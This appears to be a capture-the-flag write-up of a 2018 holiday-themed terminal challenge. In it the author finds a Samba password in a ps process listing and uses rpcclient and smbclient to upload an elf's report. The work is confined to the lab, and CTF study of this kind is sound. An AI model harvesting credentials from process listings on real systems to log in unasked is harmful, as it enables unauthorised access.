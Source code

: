 ### This challenge is to uploac the elf's report.txt to the samba share at //localhost/report-upload

[Video](https://www.youtube.com/watch?v=W6_JaApK0xM)

Here's the firt screen... lets go
```
kkkkkkkkkkkkkOKXXXXXXXkxddo;,,,,,,,,,,,,,,,,,,,,,,,,cddxkXXXXXXXkc,,,,,,,,,,,,,
kkkkkkkkkkkkkkkk00KXXXXXkl,,,,,,,,,,,,oKOc,,,,,,,,,,,:xXXXX0kdc;,,,,,,,,,,,,,,,
kkkkkkkkkkkkkkkkkkkkKXXXKx:,,,,,,,,;dKXXXX0l,,,,,,,,cxXXXXk,,,,,,,,,,,,,,,,,,,,
kkkkkkkkkkkkkkkkkkkkk0XXXXX0xoc;,;dKXXXXXXXX0l;:cokKXXXXKo,,,,,,,,,,,,,,,,,,,,,
kkkkkkkkkkkkkkkkkkkkkkk0KXXXXXXXXXXXXXXXXXXXXXXXXXXXXKkl,,,,,,,,,,,,,,,,,,,,,,,
kkkkkkkkkkkkkkkkkkkkkkkkkkOO00XXXXXXXXXXXXXXXXXXXxc:;,,,,,,,,,,,,,,,,,,,,,,,,,,
kkkkkkkkkkkkkkkkkkkkkkkkkkkO0XNWWNNXXXXXXXXXXNNWWN0o,,,,,,,,,,,,,,,,,,,,,,,,,,,
kkkkkkkkkkkkkkkkkkkkkkkkkO0XWMMMMMMNXXXXXXXNWMMMMMMNKo,,,,,,,,,,,,,,,,,,,,,,,,,
kkkkkkkkkkkkkkkkkkkkkkkk0XXWMMMMMMMMNXXXXXXWMMMMMMMMNX0c,,,,,,,,,,,,,,,,,,,,,,,
kkkkkkkkkkkkkkkkkkkkkkOKXXNMMMMMMMMMWXXXXXNMMMMMMMMMWXXXx,,,,,,,,,,,,,,,,,,,,,,
kkkkkkkkkkkkkkkkkkkkkOXXXXNMMMMMMMMMMXXXXXNMMMMMMMMMWXXXXk,,,,,,,,,,,,,,,,,,,,,
kkkkkkkkkkkkkkkkkkkkkKXXXXNMMMMXl:dWWXXXXXNMXl:dWMMMWXXXXXd,,,,,,,,,,,,,,,,,,,,
kkkkkkkkkkkkkkkkkkkk0XXXXXXNMMMo   KNXXXXXXNo   KMMMNXXXXXX;,,,,,,,,,,,,,,,,,,,
kkkkkkkkkkkkkkkkkkkkKXXXXXXXNWMM0kKNXXXXXXXXN0kXMMWNXXXXXXXo,,,,,,,,,,,,,,,,,,,
kkkkkkkkkkkkkkkkkkkkXXXXXXXXXXNNNNXXXX0xxKXXXXNNNNXXXXXXXXXx,,,,,,,,,,,,,,,,,,,
kkkkkkkkkkkkkkkkkkkkXXXXXXXXXXXXXXXXX'    oXXXXXXXXXXXXXXXXd,,,,,,,,,,,,,,,,,,,
kkkkkkkkkkkkkkkkkkkk0XXXXXXXXXXXXXXXX.    cXXXXXXXXXXXXXXXXc,,,,,,,,,,,,,,,,,,,
kkkkkkkkkkkkkkkkkkkkOXXXXXXXXXXXXXXXXXdllkXXXXXXXXXXXXXXXXk,,,,,,,,,,,,,,,,,,,,
kkkkkkkkkkkkkkkkkkkkk0XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXkl,,,,,,,,,,,,,,,,,,,
kkkkkkkkkkkkkkkkkkkkkk0XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXOkkkl;,,,,,,,,,,,,,,,,
kkkkkkkkkkkkkkkkkkkkkkkOXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXKkkkkkkko;,,,,,,,,,,,,,,
kkkkkkkkkkkkkkkkkkkkkkkkk0XXXXXXXXXXXXXXXXXXXXXXXXXXXKOkkkkkkkkkkd:,,,,,,,,,,,,
kkkkkkkkkkkkkkkkkkkkkkkkkkkOKXXXXXXXXXXXXXXXXXXXXXXKOkkkkkkkkkkkkkkd:,,,,,,,,,,
kkkkkkkkkkkkkkkkkkkkkkkkkkkkkkO0KXXXXXXXXXXXXXXK0Okkkkkkkkkkkkkkkkkkkd:,,,,,,,,
kkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkOO000000OOkkkkkkkkkkkkkkkkkkkkkkkkkkxc,,,,,,
kkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkxl,,,,
kkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkxl,,
kkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkx;

Thank you Madam or Sir for the help that you bring!
I was wondering how I might rescue my day.
Finished mucking out stalls of those pulling the sleigh,
My report is now due or my KRINGLE's in a sling!

There's a samba share here on this terminal screen.
What I normally do is to upload the file,
With our network credentials (we've shared for a while).
When I try to remember, my memory's clean!

Be it last night's nog bender or just lack of rest,
For the life of me I can't send in my report.
Could there be buried hints or some way to contort,
Gaining access - oh please now do give it your best!

-Wunorse Openslae


Complete this challenge by uploading the elf's report.txt
file to the samba share at //localhost/report-upload/
elf@38fa2dd7ebbc:~$
```
The report is a simple text file
```
Stall mucking report

Dasher - routine
Dancer - routine
Prancer - confiscated second salt lick
Vixen - minor repair/adjustment to water system
Comet - routine
Cupid - routine
Donner - routine
Blitzen - refilled headache medicine
Thrasher - routine
Thunder - requested hay! oats! hay! oats!
Blaster - stall... took extra mucking
Blunder - caught with excessive carrot contraband again
Blogger - discussed social media policies again
Bragger - what appeared to be a prosthetic red nose
Wed Dec 19 16:11:48 UTC 2018
```

A ps gets us this:
```
PID TTY      STAT   TIME COMMAND
    1 pts/0    Ss     0:00 /bin/bash /sbin/init
   10 pts/0    S      0:00 sudo -u manager /home/manager/samba-wrapper.sh --verbosity=none --no-check-certificate --extraneous-command-argument --do-not-run-as-tyler --accept-sage-advice -a 42 -d~ --ignore-sw-holiday-special --suppress --suppress //localhost/report-upload/ directreindeerflatterystable -U report-upload
   16 pts/0    S      0:00  \_ /bin/bash /home/manager/samba-wrapper.sh --verbosity=none --no-check-certificate --extraneous-command-argument --do-not-run-as-tyler --accept-sage-advice -a 42 -d~ --ignore-sw-holiday-special --suppress --suppress //localhost/report-upload/ directreindeerflatterystable -U report-upload
   30 pts/0    S      0:00      \_ sleep 60
   11 pts/0    S      0:00 sudo -E -u manager /usr/bin/python /home/manager/report-check.py
   17 pts/0    S      0:00  \_ /usr/bin/python /home/manager/report-check.py
   15 pts/0    S      0:00 sudo -u elf /bin/bash
   18 pts/0    S      0:00  \_ /bin/bash
   34 pts/0    R+     0:00      \_ ps afx
   35 pts/0    S+     0:00      \_ less
   23 ?        Ss     0:00 /usr/sbin/smbd
   24 ?        S      0:00  \_ /usr/sbin/smbd
   25 ?        S      0:00  \_ /usr/sbin/smbd
   27 ?        S      0:00  \_ /usr/sbin/smbd
   ```


Typical samba put command 
``` smbclient //server/share -c 'cd c:/remote/path ; put local-file' ```

https://pen-testing.sans.org/blog/2013/07/24/plundering-windows-account-info-via-authenticated-smb-sessions
user was report-upload and password was from ps above - directreindeerflatterystable

Typical command: 
``` $ rpcclient —U <username> <WinIPaddr> ```
I used:
``` $ rpcclient —U report-upload 127.0.0.1 ```

Converting the hex to decimal we get RID = 1000

``` 
rpcclient $> queryuser 1000
        User Name   :   report-upload
        Full Name   :
        Home Drive  :   \\3ad2a65a20dd\report-upload
        Dir Drive   :
        Profile Path:   \\3ad2a65a20dd\report-upload\profile
        Logon Script:
        Description :
        Workstations:
        Comment     :
        Remote Dial :
        Logon Time               :      Thu, 01 Jan 1970 00:00:00 UTC
        Logoff Time              :      Wed, 06 Feb 2036 15:06:39 UTC
        Kickoff Time             :      Wed, 06 Feb 2036 15:06:39 UTC
        Password last set Time   :      Wed, 19 Sep 2018 14:59:41 UTC
        Password can change Time :      Wed, 19 Sep 2018 14:59:41 UTC
        Password must change Time:      Thu, 14 Sep 30828 02:48:05 UTC
        unknown_2[0..31]...
        user_rid :      0x3e8
        group_rid:      0x201
        acb_info :      0x00000010
        fields_present: 0x00ffffff
        logon_divs:     168
        bad_password_count:     0x00000000
        logon_count:    0x00000000
        padding1[0..7]...
        logon_hrs[0..21]...
rpcclient $> 
```

``` 
elf@b81aa31b8012:~$ smbclient -U report-upload //localhost/report-upload/
WARNING: The "syslog" option is deprecated
Enter report-upload's password: 
Domain=[WORKGROUP] OS=[Windows 6.1] Server=[Samba 4.5.12-Debian]
smb: \>  
```
Now we put the file up onto the Samba share and get the following SUCCESS!
```
smb: \> put report.txt report.txt 
putting file report.txt as \report.txt (250.5 kb/s) (average 250.5 kb/s)
smb: \> Terminated
elf@b81aa31b8012:~$ 
                                                                               
                               .;;;;;;;;;;;;;;;'                               
                             ,NWOkkkkkkkkkkkkkkNN;                             
                           ..KM; Stall Mucking ,MN..                           
                         OMNXNMd.             .oMWXXM0.                        
                        ;MO   l0NNNNNNNNNNNNNNN0o   xMc                        
                        :MO                         xMl             '.         
                        :MO   dOOOOOOOOOOOOOOOOOd.  xMl             :l:.       
 .cc::::::::;;;;;;;;;;;,oMO  .0NNNNNNNNNNNNNNNNN0.  xMd,,,,,,,,,,,,,clll:.     
 'kkkkxxxxxddddddoooooooxMO   ..'''''''''''.        xMkcccccccllllllllllooc.   
 'kkkkxxxxxddddddoooooooxMO  .MMMMMMMMMMMMMM,       xMkcccccccllllllllllooool  
 'kkkkxxxxxddddddoooooooxMO   '::::::::::::,        xMkcccccccllllllllllool,   
 .ooooollllllccccccccc::dMO                         xMx;;;;;::::::::lllll'     
                        :MO  .ONNNNNNNNXk           xMl             :lc'       
                        :MO   dOOOOOOOOOo           xMl             ;.         
                        :MO   'cccccccccccccc:'     xMl                        
                        :MO  .WMMMMMMMMMMMMMMMW.    xMl                        
                        :MO    ...............      xMl                        
                        .NWxddddddddddddddddddddddddNW'                        
                          ;ccccccccccccccccccccccccc;                          
                                                                               



You have found the credentials I just had forgot,
And in doing so you've saved me trouble untold.
Going forward we'll leave behind policies old,
Building separate accounts for each elf in the lot.

-Wunorse Openslae
```

